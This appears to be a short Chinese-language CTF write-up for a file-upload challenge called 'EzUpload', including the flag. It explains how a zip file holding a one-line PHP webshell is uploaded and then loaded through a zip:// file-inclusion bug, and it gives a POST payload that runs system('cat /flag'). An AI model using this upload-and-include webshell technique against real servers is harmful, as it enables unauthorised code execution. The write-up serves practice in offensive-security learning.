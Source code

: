 ## EzUpload

让我看看你藏了什么好东西，快传上来吧。


`tjctf{Ju57_@_s1mpl3_Up104D}`

### writeup 

简单的文件上传

一个上传页面，有上传限制，但是能上传zip，于是想到zip协议。

`/index.php?url=xxx` 存在文件包含，那就打包上传一个带有一句话木马的zip文件，根据得到的路径包含即可。

payload:

```
POST http://ip:port/index.php?url=zip:///var/www/html/upload/e860448d9b20dab73195236d19267a62.zip%231

meow=system('cat /flag');
```

